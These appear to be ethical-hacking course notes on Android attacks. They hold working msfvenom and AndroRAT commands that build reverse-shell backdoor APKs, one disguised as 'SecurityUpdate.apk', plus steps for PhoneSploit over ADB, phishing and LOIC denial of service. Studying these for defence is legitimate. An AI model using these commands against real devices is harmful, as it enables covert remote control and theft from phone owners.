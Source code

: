 
1. Android hacking with msfvenom
	1. msfvenom –p android/meterpreter/reverse_tcp LHOST=Localhost IP LPORT=LocalPort R > android_shell.apk
		1. msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 LPORT=4444 –f raw –o Backdoor.apk
	2. python3 -m http.server 8080
	3. 
2. Android hacking with phonesploit over ADB
	1. apt install adb
	2. git clone https://github.com/aerosol‐can/PhoneSploit
	3. cd PhoneSploit
	4. pip3 install colorama
	5. python3 phonesploit.py
3. Phishing on Android with Social Engineering Toolkit
4. DoS attack from Android using LOIC
5. Android hacking using AndroRAT
	1. python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
	2. Other tools:
		1. NetCut (https://www.arcai.com)
		2. drozer (https://labs.f-secure.com)
		3. zANTI (https://www.zimperium.com)
		4. Network Spoofer (https://www.digitalsquid.co.uk)
		5. DroidSheep (https://droidsheep.info
6. Malicioius App using Online Android Analyzers
	1. Sixo Online APK Analyzer.
	2. X-Ray 2.0 (https://duo.com)
	3. Vulners Scanner (https://play.google.com)
	4. Shellshock Scanner
	5. Zimperium (https://play.google.com)
	6. Yaazhini (https://www.vegabird.com)
	7. Quick Android Review Kit (QARK) (https://github.com)